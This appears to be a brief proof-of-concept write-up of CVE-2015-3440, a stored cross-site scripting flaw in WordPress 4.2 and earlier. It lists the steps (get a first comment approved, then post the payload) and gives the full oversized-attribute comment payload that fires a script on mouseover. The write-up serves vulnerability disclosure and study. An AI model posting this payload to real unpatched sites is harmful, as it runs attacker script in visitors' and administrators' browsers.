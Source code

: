 # Steps
#### Step 1 - Gain trust from the admin
######	Create a comment on a post.

#### Step 2 - Wait
###### Wait for approval from the admin.

#### Step 3 - Inject XSS
######	Comment the payload.
	```
	<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>
	```


# The types / classes of vulnerabilities involved and any related CVE identifiers
#### Unauthenticated Stored Cross-Site Scripting (XSS)

#### CVE-2015-3440 

# Affected versions and patches
#### Affected version
###### WordPress <= 4.2 

#### Patched in
###### version 4.2.1

# Demo
